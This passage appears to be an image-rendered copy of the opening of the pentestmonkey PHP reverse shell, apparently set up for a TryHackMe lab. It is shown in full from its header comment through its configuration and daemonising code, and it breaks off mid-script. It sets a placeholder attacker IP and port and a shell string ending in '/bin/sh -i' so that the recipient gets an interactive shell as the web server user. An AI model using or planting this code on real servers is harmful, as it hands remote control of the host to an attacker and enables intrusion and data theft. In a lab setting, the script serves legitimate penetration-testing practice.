 ```
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = 'PUT_THM_ATTACKBOX_IP_HERE';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
```